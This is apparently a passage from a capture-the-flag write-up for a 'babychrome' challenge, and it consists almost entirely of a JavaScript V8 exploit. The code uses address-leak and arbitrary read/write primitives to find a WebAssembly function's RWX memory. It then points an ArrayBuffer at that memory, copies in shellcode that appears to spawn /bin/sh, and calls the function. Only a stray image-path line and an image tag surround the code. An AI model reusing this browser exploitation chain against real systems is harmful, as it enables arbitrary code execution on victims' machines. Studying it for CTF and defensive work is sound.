 ```js
    e[0] = u32_to_f64(v);
  }

  wasm_addr = addrOf(wf);
  print("wasm addr : " + tohex64(wasm_addr));

  wasm_addr[0] += 12;
  tmp = read32(wasm_addr);
  print("SharedFunctionInfo addr : " + tohex64(tmp));

  tmp[0] += 4;
  tmp = read32(tmp);
  print("WasmExportedFunctionData addr : " + tohex64(tmp));

  tmp[0] += 8;
  tmp = read32(tmp);
  print("WasmInstanceObject addr : " + tohex64(tmp));

  tmp[0] += 0x68;
  tmp = read64(tmp);
  print("rwx addr : " + tohex64(tmp));

  let rwx_addr = tmp;
  let sc = [0xb848686a, 0x6e69622f, 0x732f2f2f, 0xe7894850, 0x1697268, 0x24348101, 0x1010101, 0x6a56f631, 0x1485e08, 0x894856e6, 0x6ad231e6, 0x50f583b];

  let ab_addr = addrOf(ab);
  print("ArrayBuffer addr : " + tohex64(ab_addr));

  let ab_back = ab_addr;
  ab_back[0] += 16 + 4;

  write64(ab_back, rwx_addr);

  let uu = new Uint32Array(ab);

  for (i = 0; i < sc.length; i++) {
    uu[i] = sc[i];
  }

  wf();
}

pwn();
```

<center>
<img src="/img/202103/babychrome_4.png" alt="challenge" />
</center>
